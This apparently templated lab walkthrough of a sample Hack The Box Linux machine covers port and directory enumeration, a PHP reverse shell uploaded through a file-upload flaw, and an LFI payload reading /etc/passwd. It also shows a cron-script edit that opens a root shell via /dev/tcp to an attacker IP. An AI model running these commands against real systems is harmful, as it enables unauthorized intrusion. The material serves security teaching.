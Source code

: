 
---
title: "Sample HTB Machine - Walkthrough"
description: hello
summary: hello
date: 2025-07-23
draft: false
tags: ["htb", "linux", "web", "privilege-escalation"]
categories: ["writeups"]
difficulty: ["Medium"]
platform: ["Linux"]
---

![MACHINE](../../images/Era.png)

## Generic Information

**Name of the Machine**: Sample Machine  
**Machine IP**: 10.10.10.XXX  
**Operating System**: Linux  
**Difficulty**: Medium  
**Publication Date**: July 23, 2025  

---

## Reconnaissance - Enumeration

### Service Scan
```bash
nmap -sCV -vv 10.10.10.XXX
```

Key findings from the service scan:
- Port 22: SSH OpenSSH 8.2p1
- Port 80: HTTP Apache 2.4.41
- Port 443: HTTPS Apache 2.4.41

### All Ports Scan
```bash
nmap -sS -T4 -p- -vv 10.10.10.XXX
```

Additional ports discovered:
- Port 8080: HTTP Alternative service

### Directory Busting
```bash
gobuster dir -w /usr/share/dirbuster/directory-list-2.3-small.txt -u http://sample.htb/ -t 20
```

Interesting directories found:
- /admin
- /uploads
- /backup

### Subdomain Enumeration
```bash
ffuf -w /usr/share/wordlists/discovery/subdomains-top1million-20000.txt -u http://sample.htb -H "Host: FUZZ.sample.htb"
```

Subdomains discovered:
- admin.sample.htb
- api.sample.htb

---

## Exploit #1 - Web Application Vulnerability

### Initial Access Vector

The web application running on port 80 contains a file upload vulnerability that allows arbitrary file upload without proper validation.

**Steps:**
1. Navigate to `/uploads` endpoint
2. Upload a PHP reverse shell disguised as an image
3. Access the uploaded file to trigger the shell

```bash
# Generate reverse shell
msfvenom -p php/reverse_php LHOST=10.10.14.XXX LPORT=4444 -f raw > shell.php

# Set up listener
nc -lvnp 4444
```

### Exploitation Process

1. **File Upload Bypass**: Modified the Content-Type header to `image/jpeg`
2. **Shell Execution**: Accessed `http://sample.htb/uploads/shell.php`
3. **Initial Foothold**: Gained access as `www-data` user

---

## Exploit #2 - Local File Inclusion

### Vulnerability Analysis

The application's file parameter is vulnerable to Local File Inclusion (LFI), allowing access to sensitive system files.

**Payload:**
```
http://sample.htb/index.php?file=../../../../etc/passwd
```

### Information Gathering

Through LFI, discovered:
- User accounts in `/etc/passwd`
- SSH keys in `/home/user/.ssh/`
- Application configuration files

---

## Privilege Escalation

### Enumeration

After gaining initial access, performed standard privilege escalation enumeration:

```bash
# Check sudo permissions
sudo -l

# Look for SUID binaries
find / -perm -4000 2>/dev/null

# Check for interesting files
find / -name "*.conf" -type f 2>/dev/null
```

### Escalation Vector

Discovered that the `backup` script runs as root via cron job and is writable by the current user.

**Steps:**
1. Modify the backup script to include a reverse shell
2. Wait for the cron job to execute
3. Receive root shell

```bash
# Add to backup script
echo 'bash -i >& /dev/tcp/10.10.14.XXX/5555 0>&1' >> /opt/backup.sh

# Set up listener
nc -lvnp 5555
```

## Key Takeaways

1. **File Upload Security**: Always validate file types and contents, not just extensions
2. **Input Validation**: Properly sanitize user input to prevent LFI attacks
3. **Privilege Management**: Regularly audit file permissions and cron jobs
4. **Defense in Depth**: Multiple security layers could have prevented this compromise

---

*This writeup demonstrates common web application vulnerabilities and privilege escalation techniques for educational purposes.*
